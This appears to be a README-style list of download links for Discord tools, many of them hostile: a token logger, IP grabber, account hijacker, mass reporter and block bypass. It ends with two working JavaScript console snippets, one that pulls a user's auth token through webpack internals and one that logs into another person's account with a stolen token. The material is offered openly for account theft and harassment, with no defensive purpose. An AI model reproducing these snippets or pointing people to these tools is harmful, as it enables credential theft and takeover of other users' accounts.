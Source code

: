- open source token logger :: https://cdn.discordapp.com/attachments/785327015611858954/785331147869519882/python-token-grabber-master.zip

- block bypass source code :: https://cdn.discordapp.com/attachments/785327015611858954/785331161605341245/Bypass-Block-Message-master.rar

- Message purger :: https://cdn.discordapp.com/attachments/785327015611858954/785331368107180032/Discord-Message-Cleaner-selfbot-master.zip

- Discord messagge logger :: https://cdn.discordapp.com/attachments/785327015611858954/785331448139874305/Discord-Logger-master.zip

- token warn :: https://cdn.discordapp.com/attachments/785327015611858954/785331524211834880/tokenwarn-master.zip

- Token checker :: https://cdn.discordapp.com/attachments/785327015611858954/785331587944284200/Discord-Token-Checker-master.zip

- Discord ip logger :: https://cdn.discordapp.com/attachments/785327015611858954/785331672644190218/Discord-IP-Grabber-master.zip

- Discord mass reporter :: https://cdn.discordapp.com/attachments/785327015611858954/785331948008636466/Discord-Reporter-master.zip

- Discord account backup :: https://cdn.discordapp.com/attachments/785327015611858954/785332172764217354/Discord-Account-Backup-Bot-master.zip

- Discord hype squad changer :: https://cdn.discordapp.com/attachments/785327015611858954/785332258714288129/Discord-Hypersquad-Badges-master.zip

- Discord friend decliner :: https://cdn.discordapp.com/attachments/785327015611858954/785332766178410526/Discord-Friend-Requests-Decliner-master.zip

- Discord hijacker :: https://cdn.discordapp.com/attachments/785327015611858954/785332850177867786/discord-hijacker-master.zip

- Discord nitro purchaser :: https://cdn.discordapp.com/attachments/785327015611858954/785332990988517386/discord-nitro-purchaser-master.zip

- Discord best selfbot :: https://github.com/Jeancys/Execard-Selfbot/archive/main.zip

### Bonus ~

- Getting your token

Paste:  
``var req=webpackJsonp.push([[],{extra_id:(e,r,t)=>e.exports=t},[["extra_id"]]]);for(let e in req.c)if(req.c.hasOwnProperty(e)){let r=req.c[e].exports;if(r&&r.__esModule&&r.default)for(let e in r.default)"getToken"===e&&console.log(r.default.getToken())}
``
In console by pressing CTRL + SHIFT + I


- Logging in to someone's Token

Paste:  
 ``function login(token) {
setInterval(() => {
document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token = `"${token}"`
}, 50);
setTimeout(() => {
location.reload();
}, 200);
}
login("TOKEN_HERE")
``
In console to login to someone's token.
